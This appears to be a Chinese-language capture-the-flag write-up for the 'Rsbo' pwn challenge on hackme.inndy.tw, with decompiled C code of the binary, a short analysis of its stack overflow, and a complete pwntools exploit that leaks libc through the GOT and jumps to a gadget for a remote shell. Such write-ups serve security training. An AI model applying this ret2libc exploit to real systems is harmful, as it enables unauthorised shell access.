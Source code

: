 ```yaml
---
title: hackme.inndy.tw::Rsbo & Rsbo 2
date: 2021-10-17 21:24:55
tags: pwn
---
```


## challenge
`Tips: ROP, open, read`

## 保護機制
NX開啟，Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[80]; // [esp+10h] [ebp-60h]
  int v6; // [esp+60h] [ebp-10h]
  int v7; // [esp+64h] [ebp-Ch]
  int v8; // [esp+68h] [ebp-8h]
  int i; // [esp+6Ch] [ebp-4h]

  alarm(0x1Eu);
  init();
  v8 = read_80_bytes(buf);
  for ( i = 0; i < v8; ++i )
  {
    v3 = rand();
    v7 = v3 % (i + 1);
    v6 = buf[i];
    buf[i] = buf[v3 % (i + 1)];
    buf[v7] = v6;
  }
  write(1, buf, v8);
  return 0;
}
```
### init
```c
void init()
{
  char buf[16]; // [esp+14h] [ebp-24h]
  int fd; // [esp+24h] [ebp-14h]
  unsigned int seed; // [esp+28h] [ebp-10h]
  int i; // [esp+2Ch] [ebp-Ch]

  fd = open("/home/ctf/flag", 0);
  read(fd, buf, 0x10u);
  seed = time(0);
  for ( i = 0; i <= 15; ++i )
    seed = (signed int)(1337 * seed + buf[i]) % 0x7FFFFFFF;
  close(fd);
  memset(buf, 0, 0x10u);
  srand(seed);
}
```
觀察組語可發現 `main()` stack大小小於0x80(128), 而`read_80_bytes()`造成 overflow

因為ASLR, NX 的關係, 需要想辦法ROP

但binary太小, 組不起ROP chain, 因此使用libc

只要Leak GOT, 接著就可以算出libc base & getshell了

## exploit
```python
#!/usr/bin/env python2

from pwn import *
context.log_level = 'debug'

#p = process('rsbo')
p = remote('hackme.inndy.tw', 7706)
e = ELF('rsbo')
libc = ELF('libc-2.23.so.i386')

#Stage 1 (leak read)
payload = '\x00'*108
payload += p32(e.symbols['write']) + p32(e.symbols['_start']) + p32(1) + p32(e.got['read']) + p32(4)
p.send(payload)
libc_base = u32(p.recv(4)) - libc.symbols['read']
print '[+]Libc base at: {}'.format(hex(libc_base))

payload = '\x00'*108
payload += p32(libc_base + 0x5faa5)
p.send(payload)

p.interactive()
p.close()
```
shell連上去之後可以拿到2個 Flag

